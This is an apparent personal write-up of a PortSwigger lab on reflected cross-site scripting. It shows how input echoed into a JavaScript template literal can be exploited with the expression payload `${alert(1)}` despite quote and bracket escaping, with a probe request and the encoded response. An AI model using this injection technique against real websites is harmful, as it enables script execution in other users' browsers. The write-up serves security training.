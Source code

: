 # [Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped)

## Lab

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the `alert` function inside the template string.

## Analysis

request:

```http
GET /?search='"></\ HTTP/1.1
```

- result

  ```js
  var message = `0 search results for '\u0027\u0022\u003e\u003c/\u005c'`;
  document.getElementById('searchMessage').innerText = message;
  ```

  - everything is unicode encoded
  - but i notice that this is template literals because of ` character

## template literals

syntax:

```js
`string text`

`string text line 1
 string text line 2`

`string text ${expression} string text`

tagFunction`string text ${expression} string text`
```

## Solutions

`${alert(1)}` => lab solved

## References

<https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals>
